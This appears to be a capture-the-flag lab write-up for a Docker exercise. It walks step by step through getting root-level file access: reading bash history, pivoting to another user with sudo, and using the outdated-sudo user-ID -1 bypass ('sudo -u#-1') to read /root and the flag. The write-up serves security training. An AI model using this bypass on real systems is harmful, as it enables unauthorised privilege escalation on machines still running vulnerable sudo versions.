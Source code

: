 # Sudo - Integer Overflow

## Setup

1. Run the container
```bash
docker-compose up -d
```

2. Log in to account 'user', password 'ctf'
```bash
$ ssh user@localhost -p 5000
```

## Solution

1. Looking through bash history, notices sudo permissions were probably changed with 'visudo'

```bash
# use history command
$ history
1. cd /etc/
2. visudo
3. ls -l .
4. exit
# or just print the contents
$ cat .bash_history
```

2. Check to see sudo permissions

```bash
$ sudo -l
User user may run the following commands on ...:
    (alice) ALL
```

3. Many things can be done at this point, easiest may be to just run bash
```bash
$ sudo -u alice /bin/bash
alice@...:~$
```

4. Running sudo -l again, notice strange permissions
```bash
$ sudo -l
User alice may run the following commands on ...:
    (ALL, !root) NOPASSWD: /bin/cat, /bin/ls
```

5. Looking at sudo version, we will notice the outdated version
```bash
$ sudo --version
Sudo version 1.8.16
Sudoers policy plugin version 1.8.16
Sudoers file grammar version 45
Sudoers I/O plugin version 1.8.16
```

6. This outdated version can be exploited for integer overflow. Use it to look at /root directory
```bash
$ sudo -u#-1 ls /root
flag
```
7. Read the flag!
```bash
$ sudo -u#-1 cat /root/flag
```
